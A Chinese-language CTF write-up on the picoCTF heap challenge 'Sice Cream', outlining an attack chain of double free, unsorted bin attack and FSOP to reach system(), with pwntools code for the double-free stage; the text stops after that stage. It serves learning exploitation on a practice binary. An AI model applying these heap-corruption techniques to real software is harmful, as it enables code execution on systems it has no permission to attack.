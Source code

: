 ```yaml
---
layout: post
title: picoCTF - Sice Cream 
category: PWN
published: true
---
```


[sice_cream 题目链接](https://play.picoctf.org/practice/challenge/55?category=6&page=1)

刚开始做到一半就没啥思路了，在看到并理解了[how2heap - house_of_orange](../how2heap_house_of_orange)之后就回过头来把这题做了。主要用到的技术：DoubleFree + unsorted bin attack + FSOP。

大致介绍下程序，选项1是malloc你指定的大小，可以malloc多个，选项2可以选择性的free你之前malloc的内存。有一个全局变量USER_NAME，选项3重命名并输出它。

```bash
clot@ubuntu:~/CTF/sice_cream$ ./sice_cream
Welcome to the Sice Cream Store!
We have the best sice cream in the world!
Whats your name?
> a
1. Buy sice cream
2. Eat sice cream
3. Reintroduce yourself
4. Exit
> 
```

### 思路

1. 通过double free来将name的地址插入fast bin
2. 更改name的大小，再释放，使其放回unsorted bin
3. 改写name的bk指针，通过unsorted bin attack更改name->bk->fd指向unsorted bin，leak libc地址
4. 改写name来伪造FILE结构体，最后malloc触发崩溃并触发IO缓冲刷新，实际调用system函数。

### double free

通过在一开始输入名字时，将大小0x21写在name+8的位置，这步是为了绕过之后fast bin对size的检查。

之后就是double free的标准流程，最后一次buy操作返回的chunk实际是name的地址

```py
# name - fake chunk size: 0x21, bypass fastbin check
p.sendlineafter('>', p64(0) + p64(0x21) * 26)

# double free
buy(20, 'A'*8) # 0
buy(20, 'B'*8) # 1
eat(0)
eat(1)
eat(0)

# set fd pointer -> &USER_NAME
buy(20, p64(nameAddr)) # 2
buy(20, 'C'*8) # 3
buy(20, 'D'*8) # 4

# ret fake chunk from fast bin
buy(20, 'E'*8) # 5
```
